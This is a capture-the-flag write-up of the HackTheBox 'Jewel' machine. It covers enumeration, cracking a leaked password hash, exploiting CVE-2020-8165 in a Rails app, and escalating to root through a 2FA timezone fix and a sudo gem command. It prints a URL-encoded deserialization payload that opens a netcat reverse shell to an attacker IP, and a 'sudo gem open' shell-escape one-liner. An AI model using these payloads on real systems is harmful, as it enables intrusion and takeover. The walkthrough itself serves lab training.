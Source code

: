 ```yaml
---
published: true
title: Hackthebox jewel walkthrough
date: 2021-11-26 03:29:00 +0200
categories: [HTB]
tags: HTB
---
```

<h1>Scanning</h1>

<img src="https://i.ibb.co/dbW2t85/Screenshot-from-2021-02-13-17-25-59.png" alt="Screenshot-from-2021-02-13-17-25-59" border="0"> 

<p>We found port 22 for ssh and port 8000,8080 for HTTP where port 8000</p>

<p>Let`s add jewel.htb in our hosts </p>

<img src="https://i.ibb.co/5v1Xjw8/Screenshot-from-2021-02-13-17-54-04.png" alt="Screenshot-from-2021-02-13-17-54-04" border="0">
<h2>Enumeration</h2>
<h2>Port 8000</h2>
<img src="https://i.ibb.co/kxyH5Kj/Screenshot-from-2021-02-13-18-01-04.png" alt="Screenshot-from-2021-02-13-18-01-04" border="0">

<h2>port 8080</h2>
<img src="https://i.ibb.co/37D1z6D/Screenshot-from-2021-02-13-18-01-35.png" alt="Screenshot-from-2021-02-13-18-01-35" border="0">

<p>Let`s enumerate the BLOG!</p>
<img src="https://i.ibb.co/FmT1Ppz/Bill.png" alt="Bill" border="0">
<img src="https://i.ibb.co/s9vmvfL/Jennifer.png" alt="Jennifer" border="0">
<p>We found 2 user Bill,Jennifer </p>

<p>Let`s enumerate the REPO </p>
<img src="https://i.ibb.co/0fNWrZK/Screenshot-from-2021-02-13-18-15-14.png" alt="Screenshot-from-2021-02-13-18-15-14" border="0">

<p>After some enumerating i found SQL file "bd.sql" and i got some hashes</p>
<img src="https://i.ibb.co/d08S7kv/Screenshot-from-2021-02-13-18-18-20.png" alt="Screenshot-from-2021-02-13-18-18-20" border="0">

<p>I cracked Bill hash "spongebob" but couldn`t login, let`s countinue enumeration</p>
<img src="https://i.ibb.co/JKpyJ9q/Screenshot-from-2021-02-13-18-27-25.png" alt="Screenshot-from-2021-02-13-18-27-25" border="0">
<h2>User flag</h2>
<p>It`s using ruby '2.5.5' , let`s search for an exploit</p>
<p>After searching i found a CVE</p><a href="https://github.com/masahiro331/CVE-2020-8165">CVE-2020-8165</a> 
<p>I tested all the fields and i found that the vulnerable input in updating user fields</p>
<p>Payload <blockquote>%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T</blockquote></p>
<p>Change the ip to your ip</p>
<img src="https://i.ibb.co/52wq0rs/web10.png" alt="web10" border="0">
<img src="https://i.ibb.co/GRGjx1b/cmd2.jpg" alt="cmd2" border="0">
<pre>
<span class="k">$ su bill</span>
<span class="na">Password: </span>
<span class="k">bill@jewel:~$ whoami</span>
<span class="na">bill</span>
</pre>
<pre>
<p>The password is "spongebob" we cracked it 
if you remember </p><p>Let`s upgrade our shell </p>
</pre>
<img src="https://i.ibb.co/D4qw4cq/ssh.png" alt="ssh" border="0">
<img src="https://i.ibb.co/cCN66PD/ssshhs1.jpg" alt="ssshhs1" border="0">

<h2>Root flag</h2>
<p>I listed the directory as 1st step of enumeration and i found Google auth, it look like the admin use 2FA</p>
<img src="https://i.ibb.co/NydTvQn/Google-autyh.jpg" alt="Google-autyh" border="0">
<p>Let`s get the secret key and use google auth</p>
<img src="https://i.ibb.co/RghXZSW/cmd10.jpg" alt="cmd10" border="0">
<img src="https://i.ibb.co/GTBN0Wz/auth-1.jpg" alt="auth-1" border="0">
<img src="https://i.ibb.co/QcTKwXY/auth-2.jpg" alt="auth-2" border="0">
<p>Let`s generate the OTP</p>
<img src="https://i.ibb.co/89GyndH/web14.jpg" alt="web14" border="0">
<p>Let`s use the OTP</p>
<img src="https://i.ibb.co/MM9SNFy/cmd11.jpg" alt="cmd11" border="0">
<p>Looks like something wrong.</p>
<p>This step made my mind blow off , i searched a lot and asked for a nudge at HTB discord server</p>
<p>Someone told me it`s about sync with the victim box, let`s see</p>
<img src="https://i.ibb.co/PCjNDwg/cmd123.jpg" alt="cmd123" border="0">.
<img src="https://i.ibb.co/PCjNDwg/cmd123.jpg" alt="cmd123" border="0">
<p>Timezone is different, let`s set our machine to the victim timezone</p>
<img src="https://i.ibb.co/PxmmR2H/cmd163.jpg" alt="cmd163" border="0">
<img src="https://i.ibb.co/Mn5tVyQ/cmd1645.jpg" alt="cmd1645" border="0">
<p>Let`s try to escalate privilege again</p>
<img src="https://i.ibb.co/1M7W8dv/priv.jpg" alt="priv" border="0">
<p>Bam ! it`s working</p>
<pre>
<span class="k">sudo gem open -e "/bin/sh -c /bin/sh" rdoc</span>
                                                                </pre>
<img src="https://i.ibb.co/JzTS9cn/cmd19.jpg" alt="cmd19" border="0">

<p>Thanks for reading i hope you enjoyed </p>
